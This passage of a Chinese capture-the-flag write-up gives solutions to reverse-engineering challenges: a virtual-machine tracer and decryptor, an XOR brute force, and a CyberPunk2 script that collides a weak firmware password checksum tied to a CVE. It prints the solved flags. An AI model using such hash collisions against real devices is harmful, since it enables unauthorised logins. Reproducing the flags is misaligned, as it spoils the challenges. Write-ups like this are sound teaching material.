for i in range(1197+13,1731,13):
    # print(i)
    opcode[i]=0

f = "NCTF{aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa}"
f1 = 0
# a = [0,1,0,0,0,0,0,0,0]
i = 9
while i<28416:# opcode[i+2]!=0xffffffff:
    # print(opcode[i],opcode[i+1],opcode[i+2])
    # if i == 1197:
    #     i += 1
    if opcode[i]<9:
        print(f"{i}\topcode[{opcode[i+1]}] -= opcode[{opcode[i]}]")
    else:
        print(f"{i}\topcode[{opcode[i+1]}] -= opcode[{opcode[i]}]\t\topcode[{opcode[i+1]}] -= {opcode[opcode[i]]}")
    opcode[opcode[i+1]] = (opcode[opcode[i+1]] - opcode[opcode[i]]) & 0xffffffff
    i += 3
    if bin(opcode[opcode[i+1-3]])[2:].zfill(32)[0]=='1':
    # if opcode[2]==0xffffffff:
        # print(opcode[i+2-3],bin(opcode[i+2-3])[2:].zfill(32))
        if bin(opcode[i+2-3])[2:].zfill(32)[0]=='0' and opcode[i+2-3]!=0:
            # print(opcode[i],opcode[i+1],opcode[i+2])
            print(f"{i}\tjmp {opcode[i+2-3]}")
            i = opcode[i+2-3]

    opcode[2] = 0
    if opcode[7]>0:
        print(f"{i}\tprint {opcode[8]}")
        opcode[7] = 0
        opcode[8] = 0
    if opcode[5]>0:
        print(f"{i}\tputchar({chr(opcode[6])})")
        # print(chr(opcode[6]),end="")
        opcode[5] = 0
        opcode[6] = 0
    if opcode[3]>0:
        print(f"{i}\tinput")
        # print(f1)
        opcode[4] = ord(f[f1])
        f1 += 1
        opcode[3] = 0
# 输入的存放位置
while i<28433:
    print(hex(opcode[i]),end=',')
    i += 1
print()
# 输入位置以后的数据
while i<28475:
    print(hex(opcode[i]),end=',')
    i += 1
print()
while opcode[i]!=0xffffffff:
    print(hex(opcode[i]),end=',')
    i += 1
```

由于太长，dump 几百万行后就卡死了，分析发现输出的“input:”和“Right!"字符串都在 opcode 的末尾，并且会将输入存放到*28433~28474 当中，之后会将输入分别加一个数字，然后进行循环加（实际上就是乘法），由于循环的次数较大，导致指令过多无法正常 dump，故将 opcode 的 1197+13 之后的每 13 的数字改为 0（实际上就是将所加的数字改为 0，使循环次数减少；本来是从 1197 开始，但是由于要使第一个字符通过检验，所以从第二个开始改为 0）将全部指令 dump 下来后可以看出，在第二个字符未通过检验而直接退出，分析第一个字符，即”N“的加密流程*

此外由于开始因为确定密文的位置，将看起来像密文的数据 42 位一组隔开，如下图，对分析过程也有不小的帮助


整体流程是，将输入加一个数字，比如第一个”N“+721


循环”N“+721 次，每次加 28475 位置的值，即(”N“+721)\*0xe3

然后循环 0x67f 次，每次加 0x6d，即 0x67f\*0x6d

最后差值要等于 28601 位置的值，即 0x6a


倒着解密即可

```python
b = [721,351,404,409,331,536,288,379,945,269,
    554,392,391,617,984,621,276,872,1022,566,
    523,1016,646,372,853,319,330,793,378,408,
    320,259,532,382,719,461,716,892,301,415,
    358,800]
m = [0]*42

table = [0xe3,0x63,0x29,0xcd,0xe9,0x77,0xc1,0x2b,0x98,0x99,0x60,0x28,0xc9,0x25,0x7b,0xba,0x34,0x8f,0xee,0xe1,0xb5,0x5c,0x3d,0xfe,0x9e,0x5c,0xe4,0x55,0x37,0x71,0xed,0xbc,0x86,0xa3,0x85,0x5e,0x4f,0x41,0xaf,0x2c,0xeb,0xdb]
table2 = [0x6d,0x94,0x7d,0x96,0x81,0x89,0x8c,0x71,0x8b,0x96,0x94,0x78,0x65,0x6f,0x88,0x68,0x8e,0x72,0x77,0x7c,0x7f,0x90,0x79,0x79,0x77,0x83,0x6e,0x75,0x76,0x6b,0x6d,0x73,0x72,0x72,0x7e,0x66,0x90,0x7e,0x75,0x77,0x85,0x66]
table3 = [0x67f,0x117,0xa0,0x28e,0x334,0x1fd,0x1db,0xa4,0x444,0x144,0x1a9,0xa4,0x36d,0xdc,0x3a5,0x4ba,0x78,0x4c2,0x856,0x461,0x330,0x2a9,0x179,0x36b,0x4b6,0x103,0x375,0x28a,0xc5,0x1e5,0x32b,0x1ff,0x2ac,0x2b4,0x35f,0x204,0x1a6,0x1e4,0x211,0xad,0x2d4,0x7c2]
table4 = [0x6a,0x5a,0x8,0x5f,0x2,0x78,0x55,0x57,0x3c,0x36,0x4c,0x50,0x40,0x4a,0x30,0x52,0x10,0x1,0x0,0x2e,0x51,0x8,0xb,0x2b,0x6c,0x13,0x6,0x19,0x13,0x55,0x2,0x4f,0xc,0x4,0x38,0x8,0x3e,0x74,0x39,0x5d,0x3a,0x3]

# for i in range(42):
#     m[i] = table[i]*a[i]
# print(m[0])
# print(sum(m))
for i in range(42):
    m[i] = (table2[i]*table3[i]+table4[i])//table[i] - b[i]

print(bytes(m))

# b'NCTF{39661ff2-084c-422f-82af-4562fcc60574}'
```

### CyberPunk1

binwalk 一把梭


xor()函数就是按位异或，静态没有值，也不想模拟了，直接暴力全异或一遍看一眼。最后 base64 即可

```python
data = [
     106,  93,  72,  88, 106,   3,  68,  88, 106, 119,
  118,  68, 104,   3, 126,  68, 105, 104, 126,  95,
  106, 104, 122,  86,  81,   2,  92,  67,  82, 119,
  102,  91, 104,   2, 118,  86,  84, 119,  88,  70,
   84, 104, 126,  88,  82,  93,  98,  86,  84, 119,
   92,  68, 106, 104, 126,  86,  81, 104, 126,  86,
   82,  93,   9,   0, 104,   3,  98,  70,  82,   1,
    9,  68,  84, 103, 126,  95,  86,  97,  13,  13,
   48,   0
]
key = [
     106,  93,  72,  88, 106,   3,  68,  88, 106, 119,
  118,  68, 104,   3, 126,  68, 105, 104, 126,  95,
  106, 104, 122,  86,  81,   2,  92,  67,  82, 119,
  102,  91, 104,   2, 118,  86,  84, 119,  88,  70,
   84, 104, 126,  88,  82,  93,  98,  86,  84, 119,
   92,  68, 106, 104, 126,  86,  81, 104, 126,  86,
   82,  93,   9,   0, 104,   3,  98,  70,  82,   1,
    9,  68,  84, 103, 126,  95,  86,  97,  13,  13,
   48,   0
]
for a in range(256):
    for b in range(82):
        key[b] = data[b]^a
    print(bytes(key))
#ZmxhZ3thZGFtX3NtYXNoZXJfa2lsbGVkX2FfdGhvdXNhbmRfdGltZXNfaXNfbm90X3Rvb19tdWNofQ==
```

### CyberPunk2

这个分析了半天就看出是 32 位 ARM 小段架构，程序基址和符号表都没有还原出来。但是给了两个 hint 也不用逆向了。

根据 CVE 直接去找符合要求的 hash（仅由指定字符组成且长度为 10 左右）,在 ida 中发现长度为 10 的疑似 hash 的值，旁边那个 DaiOni 结合第一题的剧情估计就是用户名。简单估算了一下和的大小，11 位随便碰撞一下就出可用的密码了。

```python
from random import choice
from string import ascii_letters, digits
from Crypto.Util.number import *

table = ascii_letters + digits
while True:
    proof = (''.join([choice(table) for _ in range(11)]))
    num = 0
    for i in range(11):
        num += bytes_to_long(proof[i].encode()) * (i + 1) ^ (i + 1)
    if num == 6340:
        print(proof)
```
